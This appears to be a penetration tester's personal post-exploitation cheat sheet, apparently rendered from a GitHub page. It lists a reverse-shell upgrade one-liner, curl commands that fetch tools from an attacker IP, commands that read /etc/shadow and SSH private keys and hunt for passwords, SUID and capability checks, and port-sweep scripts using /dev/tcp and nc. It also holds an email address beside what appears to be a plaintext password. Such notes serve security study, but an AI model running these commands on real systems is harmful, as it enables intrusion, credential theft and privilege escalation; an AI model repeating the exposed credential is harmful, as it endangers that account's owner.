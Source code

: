 
Got a reverse shell with full access to have to write some code dumb shell to full access shell

```
python3 -c "__import__('pty').spawn('/bin/bash')"
stty -raw echo;fg
reset.

export TERM=xterm

```


Make a list of commands to download payloads from the server 

```
curl <attacker_IP>/<tool_name> -o <out_name>
```

```
curl 10.50.88.33/nmap -o nmap_sar
```


To see hidden files 
```
cd / && ls -lah
```


```
hostname
uname -a
lscpu
ps aux


whoami
id
sudo -l
cat /etc/passwd
cat /etc/passwd | cut -d : -f 1
cat /etc/shadow
cat /.ssh/id_rsa


grep --color=auto -rnw '/' -ie "PASSWORD" --color=always 2> /dev/null
locate password | more
find / -name authorized_keys 2> /dev/null 
find / -name id_rsa 2> /dev/null


sudo -l
find / -perm -u=s -type f 2>/dev/null
strace /usr/local/bin/suid-so 2>&1
env
print $PATH
getcap -r / 2>/dev/null

cat /etc/crontab
cat /etc/exports
```


```
s.singh.kv4.2021@gmail.com

4_tJG--A84K"jitD|ft{73}b,a3]wyg9
```


### Check the OS information
```
cat /etc/os-release
```


### Ping Sweep 

Bash
```
#!/bin/bash  
ports=(21 22 53 80 443 3306 8443 8080)  
for port in ${ports[@]}; do  
timeout 1 bash -c "echo \"Port Scan Test\" > /dev/tcp/1.1.1.1/$port && echo $port is open || /dev/null"   
done
```


Python
```
#!/usr/bin/python3  
import socket  
host = "1.1.1.1"  
portList = [21,22,53,80,443,3306,8443,8080]  
for port in portList:  
 s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)  
 try:  
  s.connect((host,port))  
  print("Port ", port, " is open")  
 except:  
  print("Port ", port, " is closed")
```


Netcat aka NC
```
nc -zv <IP_Address> 1-65535
```

I think the best option should be nc but will try the upper one as well but as i am not able to make file with nano/vim/vi will go with nc than



## Scripts

- [ ] linpeas  
- [ ] pspy   https://github.com/DominicBreuker/pspy
- [ ] Gtfobins https://gtfobins.github.io/
- [ ] 